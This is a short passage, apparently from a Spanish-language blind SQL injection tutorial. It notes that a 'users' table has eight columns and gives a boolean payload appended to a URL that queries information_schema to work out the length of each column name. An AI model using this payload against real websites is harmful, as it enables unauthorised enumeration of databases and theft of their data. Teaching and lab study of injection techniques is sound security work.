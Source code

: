 ![av. cant. de col](/assets/img/screens/av_cant_col1.png)

Hay 8 columnas en la tabla "users".

<br>
Averiguando la cantidad de caracteres de las columnas:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND length((SELECT column_name FROM information_schema.columns WHERE table_name="users" LIMIT x,1))='x';#</font></pre>
